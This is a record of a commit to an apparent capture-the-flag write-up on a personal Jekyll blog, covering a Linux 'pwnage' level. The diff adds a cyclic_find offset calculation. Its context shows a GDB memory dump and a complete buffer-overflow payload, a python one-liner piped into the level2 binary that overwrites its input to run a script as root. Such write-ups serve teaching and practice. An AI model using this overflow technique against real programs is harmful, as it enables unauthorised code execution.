

Before and after one commit to KevinCarroll7737/kevincarroll7737.github.io, a Jekyll site: the page built from _posts/2019-08-14-R0-Pwnage-Linux-level2.markdown, in a window 1280 px wide and 900 px high, scrolled down 2615 px. Shown: the whole window, without its empty margins (203-1076 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Updated R0 pwnage linux level2 again

````diff
--- a/_posts/2019-08-14-R0-Pwnage-Linux-level2.markdown
+++ b/_posts/2019-08-14-R0-Pwnage-Linux-level2.markdown
@@ -142,6 +142,11 @@ Command: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraa
 0xffffdc6c:	0x61616179
 ```
 
+```python
+cyclic_find(0x61616179)
+96
+```
+
 ```bash
 level2@lxc-pwn-x86:/levels$ python -c 'print "nobody\nKsdkjkk32avsh\n" + "/tmp/srbx7.sh\x00" + "\x90" * (96-len("/tmp/srbx7.sh0")) + "root\x00"'| ./level2
 Username: Password: Command: Good job!
````
